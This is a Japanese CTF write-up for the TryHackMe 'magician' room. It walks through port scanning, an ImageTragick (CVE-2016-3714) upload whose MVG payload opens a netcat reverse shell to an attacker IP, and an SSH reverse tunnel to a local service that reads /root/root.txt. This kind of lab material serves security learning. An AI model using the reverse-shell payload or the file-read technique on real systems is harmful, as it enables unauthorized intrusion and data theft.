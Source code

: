 # magician CTF

https://tryhackme.com/room/magician

## Enumeration

### ポートスキャン

```shell
TARGET=10.10.144.55
root@ip-10-10-229-247:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-02 07:08 BST
Nmap scan report for 10.10.144.55
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap
MAC Address: 02:39:1D:9D:BB:FD (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.36 seconds
root@ip-10-10-229-247:~# sudo nmap -sV -p21,8080,8081 $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-02 07:08 BST
Nmap scan report for 10.10.144.55
Host is up (0.00014s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
```

#### 8080

```
Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.
Wed Apr 02 06:09:26 UTC 2025
There was an unexpected error (type=Not Found, status=404).
No message available
```

#### 8081

- png を jpg に変換するコンバーター。PNG をアップロードできる。
- コンバーターの javascript で 8080 にアクセスしている。
- php の先頭を PNG マジックナンバーに変えたらアップロードできるが、PHP ファイルがダウンロードされるだけで実行はされなかった。

### FTP

Anonymous ログイン時のメッセージ

```shell
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

https://imagetragick.com/　・・・ CVE-2016–3714 の説明

PayloadsAllTheThings に png でリバースシェルのペイロードがあった。

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20ImageMagick/imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png

IP, port だけ設定してアップロード。

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc 10.2.22.182 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
pop graphic-context
```

リバースシェル取得成功

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.144.55] 39596
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
```

```shell
cat /home/magician/user.txt
THM{s..................}
```

## 権限昇格

```shell
magician@magician:~$ cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

ローカルで Listen していることを示唆している。

```shell
magician@magician:~$ netstat -plt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:tproxy          0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -
tcp        0      0 localhost:6666          0.0.0.0:*               LISTEN      -
tcp6       0      0 [::]:http-alt           [::]:*                  LISTEN      1303/java
tcp6       0      0 [::]:ftp                [::]:*                  LISTEN      -
```

6666 ポートを wget してみたら、index.html が保存された。

```shell
magician@magician:~$ wget http://localhost:6666
--2025-04-02 03:40:26--  http://localhost:6666/
Resolving localhost (localhost)... 127.0.0.1
Connecting to localhost (localhost)|127.0.0.1|:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2851 (2.8K) [text/html]
Saving to: ‘index.html’

index.html          100%[===================>]   2.78K  --.-KB/s    in 0s

2025-04-02 03:40:26 (29.0 MB/s) - ‘index.html’ saved [2851/2851]
```

index.html

```html
<!DOCTYPE html>
<html>
  <head>
    <title>The Magic cat</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <!-- Bootstrap -->
    <link
      href="//cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/css/bootstrap.min.css"
      rel="stylesheet"
    />
  </head>
  <body>
    <div class="navbar navbar-inverse" role="navigation">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">The Magic cat</a>
        </div>
      </div>
    </div>

    <div class="container">
      <form action="" method="post" class="form" role="form">
        <div class="form-group ">
          <label class="control-label" for="filename">Enter filename</label>

          <input
            class="form-control"
            id="filename"
            name="filename"
            type="text"
            value=""
          />
        </div>

        <input
          class="btn btn-default"
          id="submit"
          name="submit"
          type="submit"
          value="Submit"
        />
      </form>
      <div>
        <span>
          <pre class="page-header">
        

        ░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄░░░░░░░
        ░░░░░█░░░░▒▒▒▒▒▒▒▒▒▒▒▒░░▀▀▄░░░░
        ░░░░█░░░▒▒▒▒▒▒░░░░░░░░▒▒▒░░█░░░
        ░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█░░
        ░▄▀▒▄▄▄▒░█▀▀▀▀▄▄█░░░██▄▄█░░░░█░
        █░▒█▒▄░▀▄▄▄▀░░░░░░░░█░░░▒▒▒▒▒░█
        █░▒█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄▒█
        ░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█░
        ░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█░░
        ░░░█░░░░██░░▀█▄▄▄█▄▄█▄████░█░░░
        ░░░░█░░░░▀▀▄░█░░░█░█▀██████░█░░
        ░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█░░
        ░░░░░░░▀▄▄░▒▒▒▒░░░░░░░░░░▒░░░█░
        ░░░░░░░░░░▀▀▄▄░▒▒▒▒▒▒▒▒▒▒░░░░█░
        ░░░░░░░░░░░░░░▀▄▄▄▄▄░░░░░░░░█░░
        
        
        </pre
          >
        </span>
      </div>
    </div>

    <script src="//cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <script src="//cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js"></script>
  </body>
</html>
```

ファイル名をサブミットする画面ということが分かる。kali 側から接続したい。

### SSH トンネリング

[トンネリング](/トンネリング.md) 参照

```shell
magician@magician:~$ ssh -N -R 6666:localhost:6666 tunnel@10.2.22.182
```

kali のブラウザから、http://localhost:6666 でアクセスできるようになる。

ファイル名のテキストボックスに `/root/root.txt` を入れサブミットすると、フラグのような形式の文字列が出てくる。これを ROT13 するとフラグになる。

```
GUZ{........................}
```

## 振り返り

- 今後は、PayloadsAllTheThings を基本のツールボックスに取り入れたい。
- SSH トンネリングは「ハッキングしてる感」があって気持ちいい。
- ImageTragick の脆弱性に少し言及すると、内部的に convert コマンドを使用しており、mvg ファイル等の中にコマンドの記述があると実行されてしまうという話。

```shell
convert exploit.mvg out.png
```
